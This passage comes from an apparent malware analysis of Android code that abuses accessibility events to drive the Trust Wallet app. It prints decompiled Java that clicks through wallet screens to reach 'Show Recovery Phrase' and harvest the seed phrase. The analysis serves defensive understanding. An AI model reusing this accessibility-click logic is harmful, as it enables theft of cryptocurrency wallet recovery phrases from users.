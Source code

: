 - Traverses a **hardcoded UI path** by child index.
- **Clicks** a specific wallet to access wallet information.

![Fig 9. Confirmation of WalletsActivity being targeted](image%207.png)

Fig 9. Confirmation of WalletsActivity being targeted

---

### 2c. `WalletInfoActivity` - Wallet Details

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.wallets.activity.WalletInfoActivity")) {
    if (f3471b) {
        nodeInfo.getChild(2).performAction(16);
        return;
    } else {
        nodeInfo.getChild(4).performAction(16);
        return;
    }
}

```

**What it does:**

- Uses state flag **`f3471b`** to choose which element to click.
- First pass (`f3471b = false`): Likely returns to previous activity.
- Second pass (`f3471b = true`): Clicks the “Show Recovery Phrase” node to retrieve seed phrase.
